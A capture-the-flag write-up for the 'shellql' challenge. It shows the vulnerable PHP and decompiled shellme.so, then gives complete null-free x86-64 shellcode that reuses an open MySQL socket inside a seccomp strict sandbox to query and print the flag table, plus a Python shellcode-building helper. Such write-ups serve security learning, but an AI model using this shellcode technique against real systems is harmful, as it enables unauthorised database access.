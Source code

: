 # shellql

The challenge was basicaly shellcoding in the context of PHP under a sandbox to make SQL queries. 

----

They provide us with a shared object `shellme.so` and a website. By appending ?source to the index.php, the source is shown.

This is the relevant source
```php
#!/usr/bin/php-cgi
<?php

if (isset($_GET['source']))
{
   show_source(__FILE__);
   exit();
}

$link = mysqli_connect('localhost', 'shellql', 'shellql', 'shellql');

if (isset($_POST['shell']))
{
   if (strlen($_POST['shell']) <= 1000)
   {
      echo $_POST['shell'];
      shellme($_POST['shell']);
   }
   exit();
}
```

The main part is the our input from post request is passed to a `shellme()` function, which is defined in the shared object `shellme.so`.

Opening `shellme.so` in our god IDA and following the shellme(), this is where it ends.

```cpp
__int64 __fastcall shell_this(void *src)
{
  size_t v1; // rbx
  void *v2; // rbp

  v1 = (signed int)strlen((const char *)src);
  v2 = mmap(0LL, v1, 7, 34, -1, 0LL);
  memcpy(v2, src, v1);
  alarm(0x1Eu);
  prctl(22, 1LL);
  return ((__int64 (*)(void))v2)();
}
```

So our input is basically copied to a mmap-ed region, then a seccomp sandbox is activated ( with `SECCOMP_MODE_STRICT` ) and then our input is executed. The `SECCOMP_MODE_STRICT` only allowed read(), write() and exit() syscalls.

Another thing is that it uses strlen(), which only reads upto null bytes. So we can't have null bytes in our shellcode or it'll be truncated.

Looking at the php code again, we see that it already makes a connection with the mysql server before executing our shellcode and the description says that the flag is in the table `flag`. So the FD for the connection will already be open and we can write SQL queries to it and read the response.

Since the server uses php-cgi, we first also have to write the php-cgi header, then send the sql query to the FD 4( of mysql server ), read the response and write it to stdout. 

By looking at the mysql [docs](https://dev.mysql.com/doc/internals/en/com-query.html), we figure out that the request consists something like this at the protocol level

```
| little endian, 4 bytes, length of query | 1 byte query type (0x3 for this query) | Our Query |
```

So we would send something like this to the mysql server

```
|0x13 0x00 0x00 0x00 | 0x3 | Select * from flag |
```

The plan is as follows then:
- Write the cgi header ( Content-type: text/html )
- Send the SQL query to fd 4 ( mysql server )
- Read response from fd 4 ( mysql server )
- Write the response received

I set up a quick shellcode development environment, which basically compiles my assembly, warns me if there are any null bytes and then prints the shellcode representation. Here it is:

```python
import os

asm = """

;SHELLCODE HERE

"""

with open("test.asm", "w") as f:
	f.write(asm)

os.system("nasm test.asm")

with open("test", "rb") as f:
	assembled = f.read()

hexCode = ""

for byte in assembled:
	hexCode += "\\x"+byte.encode('hex')

os.system("objdump -D -b binary test -m i386:x86-64 -M intel")

if '\x00' in assembled:
	print "NULL Bytes Found"

print "\n\nASSEMBLED to the following:"
print hexCode
```

The shellcode wasn't really a challenge, although I used some funky tricks to bypass NULL bytes at different places. I would write a 4 byte value to a register and then shift write so only the bytes I need are left

I used the JMP - CALL - POP technique to get the strings in registers, but since the shellcode was kinda long, sometimes the small relative JMPs would end up as big JMPs( which used null bytes ), so I used a bunch of PLT type trampolines to make sure all the JMPs are small. 

Here is my final shellcode:

```
jmp string1Trampolene

writeHeader:  ; writes the Header for php-cgi
pop r11
mov rax, 0x11111111
shr rax, 28
xor rdi, rdi
inc rdi
mov rsi, r11
mov rdx, 0x24242424
shr rdx, 24
syscall
jmp string2x2Trampolene ; Double trampolene of near jmps as far jmps have null bytes

sendSql: ; Sends the sql query
pop rsi
mov eax, DWORD [rsi]
shr eax, 24
mov DWORD [rsi], eax
mov rdi, 0x44444444  ; The file descriptor
shr rdi, 28
mov rax, 0x11111111  ; syscall number
shr rax, 28
mov rdx, 0x17171717 ; sets the length of query
shr rdx, 24
syscall
jmp readResp
nop

string1Trampolene: ; trampolene
jmp string1

writeFlag: ; Writes the flag from stack
mov rdx, rax ; same value read 
mov rax, 0x11111111
shr rax, 28
xor rdi, rdi
inc rdi
mov rsi, rsp
syscall
jmp exitCode

string2x2Trampolene: ; The trampolene
jmp string2Trampolene

readResp: ; reads the response from sql server
mov rax, 0x10101010
shr rax, 20
sub rsp, rax
xor rax, rax
mov rdi, 0x44444444  ; File descriptor 4
shr rdi, 28
mov rsi, rsp
mov rdx, 0x10101010 
shr rdx, 20
dec rdx ; sets rdx to 100
syscall
jmp writeFlag
nop

exitCode:
mov rax, 0x3c3c3c3c
shr rax, 24
xor rdi, rdi
syscall

string2Trampolene:
jmp string2

string1:
call writeHeader
db "Content-type: text/html",0x0a,0x0a,0x0a,0x0a,"r00t3d",0xa,0xa,0xa

string2:
call sendSql
db 0x13,0x13,0x13,0x13,0x3,"Select * from flag"

```

By Jazzy
